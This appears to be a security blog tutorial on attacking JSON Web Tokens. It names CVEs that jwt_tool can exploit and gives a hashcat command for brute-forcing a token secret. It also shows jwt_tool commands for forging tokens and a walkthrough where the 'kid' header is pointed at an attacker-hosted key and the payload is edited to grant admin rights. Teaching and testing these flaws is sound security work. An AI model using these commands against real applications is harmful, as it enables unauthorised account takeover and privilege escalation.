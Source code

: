 [back](/)

### JSON Web Tokens exploitation

What JSON Web Token (JWT) is? It is an open standard RFC 7519 for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. 
JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: jwt.io. 

The JWT is divided into three sections, separated by a dot: **HEADER.PAYLOAD.SIGNATURE**

To work with the JWT, [jwt_tool](https://github.com/ticarpi/jwt_tool) utility is best suited, which will allow exploiting the most popular vulnerabilities:

```
(CVE-2015-2951) The alg=none signature-bypass vulnerability
(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
(CVE-2018-0114) Key injection vulnerability
(CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
(CVE-2020-28042) Null signature vulnerability
```

In case there are no vulnerabilities, you can try to guess or brute force the JWT encryption password and than change any key and values. For example, set the flag **"is_admin":"true"** or something similar. In order to generate the appropriate JWT, that will be suitable for the application, a encryption password is required.

To brute force a JWT encryption password, using a dictionary method:

```
hashcat -a 0 -m 16500 jwthash.txt wordlist.txt
```

![Image](/img/jwt/1.png)

For parse JWT you can use [jwt.io](https://jwt.io/) site or the [jwt_tool](https://github.com/ticarpi/jwt_tool) utility:

![Image](/img/jwt/2.png)

![Image](/img/jwt/2.5.png)

To generate JWT by [jwt_tool](https://github.com/ticarpi/jwt_tool):

```
python3 jwt_tool.py -b -S hs256 -p 'keypass' $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"data": {"username": "jaki"}}' | base64 -w0).
```

In this case, it is represented an attack on the JWT, where the HEADER section uses reading the private key to decrypt the token. Imagine you have user JWT token after registering on the web application, and your goal is to elevate your rights

```
HEADER:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key" --- change to attacker ip
}

PAYLOAD

{
  "username": "root",
  "email": "1@test.ru",
  "admin_cap": "false" --- change on true 
}
```

In this example, the attacker can try to replace the ip-address with his own, having previously created a pair of keys:

```
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
```

Initially, access to the admin panel is closed due to the set flag, in PAYLOAD: **"admin_cap":"false"**.

![Image](/img/jwt/3.png)

Сonsidering that the web application uses **RS56 RSA signing**, there are two ways to encrypt a JWT with the **"admin_cap":"true"** flag and the "kid" HEADER key:

1. Using the site https://jwt.io/
2. Or using jwt_tool.py

```
python3 jwt_tool.py CURRENT_JWT -T -S rs256 -pr /tmp/keys/privKey.key
```

![Image](/img/jwt/4.png)

![Image](/img/jwt/4.5.png)

Before sending the JWT application, you need to start the http-server to access the private key:

![Image](/img/jwt/5.png)

The attacker successfully gained access to the admin panel:

![Image](/img/jwt/6.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)